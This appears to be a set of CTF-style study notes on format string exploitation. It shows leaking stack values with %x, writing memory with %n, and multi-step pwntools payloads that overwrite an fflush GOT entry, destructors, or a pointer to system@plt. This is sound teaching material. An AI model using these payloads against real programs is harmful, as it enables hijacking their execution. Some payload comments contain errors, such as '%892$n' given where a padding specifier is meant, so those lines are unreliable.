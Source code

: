 # Format Strings

## Identification

Look for `printf()` family functions that do not handle user input correctly.  
E.g. `printf(user_input);`  

## Find Your Input in Memory

In the vulnerable input field, provide an easily identifiable sequence of characters, e.g. `aaaabbbbccccdddd`  
followed by many `.%x` sequences. In the output, look for `61616161.62626262.63636363.64646464`.  

E.g.: Input: `aaaabbbb.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x` becomes  
Output: `aaaabbbb.8048914.ff811298.ff811330.ff8112a4.f7ee7444.f781f0e6.ff811564.abeb6602.f7ed64a0.61616161.62626262.2e78252e.252e7825.78252e78`  

You can then drill down to the specific leaks with `%10$x`, i.e. print the 10th hex value (dword size on 32bit,  qword on 64bit)  
Using the above example: `aaaabbbb.%10$x.%11$x` becomes: `aaaabbbb.61616161.62626262`  

## Writing to Memory

`%n` indicates how long a formatted string is at run time.  
When the `%n` is encountered during printf processing, the number of characters up to the current point  
are written to the address argument corresponding to the format specifier.  

E.g. `\xc8\x97\x04\x08.%x.%x.%100x.%n` would write the integer `110` to the address `0x080497c8`.  
Each byte in the address counts as 1, each %x counts as 1, each '.' counts as 1, and the `%100x` counts for 100.  
Address = 4,  
%x's = 2,  
'.' = 4,  
%.100x = 100,  
Total = 110.  

## Finding a Function to Overwite

Look for a function just after the vulnerable `printf()` function call.  
Ghidra (or another disassembler) can be used.  

`objdump -R <vulnerable_binary> | grep <function_after_printf)` will find that functions address within the binary (linux PIE disabled).  
Or open the binary in GBD, break on main (or anywhere) and run the binary, then type `got` into GDB and  
look for the desired function to overwrite (also PIE disabled).  

ANother method to find addresses is: `objdump -D <binary> | grep <function>`  

## Multiple Writes

If you want to overwrite a function pointer, to point to a different function (see the section on finding  
a function to overwrite) you need to perform multiple writes.  

If you want to overwrite the `fflush()` pointer that is found at `0x0804a028` you will  
need to perform writes at `0x0804a028`, `0x0804a029`, `0x0804a02a` and `0x0804a02b`.  
Depending on each starting value and what you need to change it to, you may need to  
write a number of bytes that overflows into into the next byte, setting that.  
E.g. Writing to `0x0804a028` to set the 1st byte, writing to `0x0804a029` to set  
the 2nd and 3rd byte, then `0x0804a02b` to set the 4th byte.  

Using the example: `aaaabbbb.%10$x.%11$x` becomes: `aaaabbbb.61616161.62626262`  
Print values and analyse in GDB: 
```python3
# desired value = 0x0804870b
payload = flat ([
  fflush_ptr0, # 0x0804a028 - pointers to each byte to change
  fflush_ptr1, # 0x0804a029
  fflush_ptr2, # 0x0804a02b
  fmt0, # %10$n - writing bytes at the 10th position
  fmt1, # %11$n - writing bytes at the 11th position
  fmt2  # %12$n - writing bytes at the 12th position
])
```

Observe the starting value of the pointer: `x/2wx 0x0804a028` = `0x52005252`  

Our first write (LSB) needs to increase from `0x52` to `0x0b` (`0x10b`)  
0x10b - 0x52 = 0xb9 OR (int) 185.  

Update the paylaod and rerun to determine the second bytes' calculation:  
```python3
# desired value = 0x0804870b
payload = flat ([
  fflush_ptr0, # 0x0804a028 - pointers to each byte to change
  fflush_ptr1, # 0x0804a029
  fflush_ptr2, # 0x0804a02b
  flag_val0, # b"%185x" - Write 185 bytes, plus the original 82 bytes (0x52) = 0x10b
  fmt0, # %10$n - writing 0x10b at the 10th position (fflush_ptr0)
  fmt1, # %11$n - writing bytes at the 11th position
  fmt2  # %12$n - writing bytes at the 12th position
])
```

Observe the value of the pointer now contains: `x/2wx 0x0804a028` = `0x0b010b0b` 

Second write needs to increase 2nd and 3rd bytes from `0x010b` to `0x0487`.  
0x487 - 0x10b = 0x37c OR (int) 892.  

Update the paylaod and rerun to determine the second bytes' calculation:  
```python3
# desired value = 0x0804870b
payload = flat ([
  fflush_ptr0, # 0x0804a028 - pointers to each byte to change
  fflush_ptr1, # 0x0804a029
  fflush_ptr2, # 0x0804a02b
  flag_val0, # b"%185x" - Write 185 bytes, plus the original 82 bytes (0x52) = 0x10b
  fmt0, # %10$n - writing 0x10b at the 10th position (fflush_ptr0)
  flag_val1, # b"%892$n" - Write 892 bytes, plus the original 267 bytes (0x10b) = 0x487
  fmt1, # %11$n - writing bytes at the 11th position
  fmt2  # %12$n - writing bytes at the 12th position
])
```

Observe the value of the pointer now contains: `x/2wx 0x0804a028` = `0x8704870b` 

Third write needs to increase the 4th byte from `0x87` to `0x08` (`0x108`).  
0x108 - 0x87 = 0x81 OR (int) 129.  

Update the paylaod and rerun to determine the second bytes' calculation:  
```python3
# desired value = 0x0804870b
payload = flat ([
  fflush_ptr0, # 0x0804a028 - pointers to each byte to change
  fflush_ptr1, # 0x0804a029
  fflush_ptr2, # 0x0804a02b
  flag_val0, # b"%185x" - Write 185 bytes, plus the original 82 bytes (0x52) = 0x10b
  fmt0, # %10$n - writing 0x10b at the 10th position (fflush_ptr0)
  flag_val1, # b"%892$n" - Write 892 bytes, plus the original 267 bytes (0x10b) = 0x487
  fmt1, # %11$n - writing bytes at the 11th position
  flag_val2, # b"%129$n" - Write 129 bytes, plus the original 135 bytes (0x87) = 0x108
  fmt2  # %12$n - writing bytes at the 12th position
])
```

Observe the value of the pointer now contains: `x/2wx 0x0804a028` = `0x0804870b` our desired value.  

## Writing Sizes

`%n` - 4 bytes  
`%hn` - 2 bytes (LSBs)  
`%hhn` - 1 byte (LSB)  

## Read Strings From the Stack

If you have a format string bug and can dump hex values, you can begin to inspect any pointers to strings  
by calling `%s` on the pointer.  

E.g.:  

```bash
> %x.%x.%x.%x.%x.%x.%x.%x 
40.f7e1d620.8048647.0.1.f7fbd4a0.ffb3aee4.ffb3adcc
> %8$s
flag{flag}

```

## Overwriting Destructors

Destructors run after main() exits by calling exit().  
Destructors can be found in a number of sections:  

- .dtors
- .fini
- .fini_array

Find them in an binary that does not have PIE enabled:  

- Objdump   - `objdump -D <binary> | grep fini`
- Ghidra    - see the "Program Trees" window
- In GDB    - `info file`
- nm        - `nm <binary>`
- readelf   - `readelf -S <binary>`

Write an address into the destructors section of a function you want to call.  

## Overwrite a function 

Find the function you want to overwrite, within the GOT (can find with `Ghidra` or `objdump -R <binary> | grep <function>`). Overwrite this pointer with the  
address to the desired functions PLT address (can find with `objdump`), e.g. system@plt.  
